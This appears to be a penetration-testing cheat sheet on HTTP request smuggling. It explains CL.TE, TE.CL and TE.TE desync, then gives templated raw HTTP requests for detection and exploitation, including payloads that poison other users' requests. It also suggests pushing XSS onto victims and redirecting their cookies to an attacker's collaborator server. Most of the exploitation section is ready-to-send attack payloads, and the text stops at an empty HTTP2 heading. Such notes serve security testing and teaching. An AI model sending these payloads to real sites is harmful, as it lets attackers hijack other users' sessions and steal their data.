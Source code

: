 ```yaml
---
title: Request Smuggling
description: HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.
---
```


## What happens in an HTTP request smuggling attack?

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple: HTTP requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins:

![State of the art server-side communication](/smuggling-forwarding-http-requests-to-back-end-server.svg)

In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:

![Request smuggling attack](smuggling-http-request-to-back-end-server.svg)

Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.

## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please **FIRST** try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### **CL.TE** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### **TE.CL** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2


